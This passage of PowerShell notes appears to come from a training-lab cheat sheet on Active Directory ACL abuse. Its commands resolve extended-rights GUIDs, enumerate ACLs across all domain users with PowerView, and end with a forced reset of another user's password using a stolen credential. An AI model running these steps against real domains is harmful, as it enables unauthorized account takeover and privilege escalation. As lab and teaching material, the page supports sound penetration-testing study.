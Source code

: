 #### Performing a Reverse Search & Mapping to a GUID Value
```PowerShell
$guid= "00299570-246d-11d0-a768-00aa006e0529" Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * | Select Name,DisplayName,DistinguishedName,rightsGuid | ?{$_.rightsGuid -eq $guid} | fl
```
Used to perform a reverse search & map to a GUID value from a Windows-based host. *Not efficient. -ResolveGUIDs in PowerView is better.*

#### Using the -ResolveGUIDs Flag
```PowerShell
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```
Used to discover a domain object's ACL by performing a search based on GUID's (-ResolveGUIDs) from a Windows-based host. Will show ObjectAceType, which will inform us what rights users have within the group.

#### Creating a List of Domain Users
```PowerShell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
```
Used to discover a group of user accounts in a target Windows domain and add the output to a text file (ad_users.txt) from a Windows-based host. More ideal method than what was previously shown.

#### A Useful foreach Loop
```PowerShell
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}
```
A foreach loop used to retrieve ACL information for each domain user in a target Windows domain by feeding each list of a text file(ad_users.txt) to the Get-ADUser cmdlet, then enumerates access rights of those users. Performed from a Windows-based host.

### Changing a User's Password
*Works with ObjectAceType User-Force-Change-Password and GenericAll*

```PowerShell
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```
Used to create a PSCredential Object from a Windows-based host. Will allow you to log in with the user that has ACL rights in the targeted group.

```PowerShell
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```
Used to create a SecureString Object from a Windows-based host.

#### Changing the password of a user
```PowerShell
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
PowerView tool used to change the password of a specifc user (damundsen) on a target Windows domain from a Windows-based host.
